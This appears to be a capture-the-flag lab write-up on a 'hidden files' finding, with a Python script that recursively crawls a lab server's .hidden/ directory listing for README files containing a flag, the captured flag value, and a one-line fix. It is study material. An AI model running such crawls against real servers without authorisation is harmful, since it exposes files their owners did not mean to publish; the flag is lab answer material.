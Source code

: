 # Hidden files

### Breach description

The directory was found using nmap on the server IP.

Scrapping all the directories in the .hidden/ directory for the content of README files with a python script (20K files to visit).

```python
from bs4 import BeautifulSoup
import requests
import os
from urllib.parse import urljoin

def follow_directory_link(url, depth=1):
    if depth > 4:
        return

    # Fetch the HTML content from the URL
    response = requests.get(url)
    html_content = response.text

    # Create a BeautifulSoup object
    soup = BeautifulSoup(html_content, 'html.parser')

    # Find all <a> tags with href attribute
    links = soup.find_all('a')

    # Loop through each link
    for link in links:
        # Get the href attribute
        href = link.get('href')

        # Construct the absolute URL
        absolute_url = urljoin(url, href)

        # Check if the link is a directory or a file
        if href.endswith('/'):
            # Recursive call to follow the directory links
            follow_directory_link(absolute_url, depth + 1)
        else:
            # Download the file or perform any other action here
            if href.lower() == 'readme':
                # If the file is a README, save its content to agg_readme.txt
                readme_response = requests.get(absolute_url)
                print(readme_response.text)
                if "flag" in readme_response.text:
                    print("Flag found !!! ")
                    print(readme_response.content)
                    print(f"path: {absolute_url}")
                    exit(1)

# URL of the webpage
base_url = "http://192.168.64.6/.hidden/"

# Start the recursion with depth 1
follow_directory_link(base_url)
```

Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466

### Explanation of the breach

### Breach Fix

Do not store sensitive information in hidden files.
